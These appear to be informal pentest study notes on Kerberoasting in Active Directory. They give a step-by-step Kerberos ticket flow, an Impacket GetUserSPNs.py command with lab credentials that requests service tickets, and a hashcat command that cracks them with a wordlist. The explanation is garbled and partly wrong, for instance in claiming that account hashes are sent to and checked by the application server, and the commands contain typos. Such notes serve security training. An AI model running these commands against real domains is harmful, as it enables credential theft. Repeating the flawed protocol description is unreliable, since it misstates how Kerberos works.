

DC:also called key distributin center(KDC)
1)User requests for TGT(Ticket granting ticket) and provides its ntlm hash
2)DC going to send TGT and encrypt it with kerberos TGT hash
apllication server is any service provided eg: sql service , antivirus service and it has an SPN(service principle name)
3)In order to access a service, we have to get a TGS(tiket granting service), we request TGS by sending TGT
4) we receive TGS along with servers account hash
5)we send TGS to application server along with the hash,ther server decrypts the hash,matches it with its own hash to see if its correct and then we can use the service
6)we get authenticated and can use the service
#GetUsersSPNs.py marvel.local/fcastle:P@ssword dc-ip <DCIP> -request
-dc-ip:IP of domain controller


#hashcat -m 13100 -krtgt.txt /usr/share/wordlists/rockyou.txt

this is the password of the server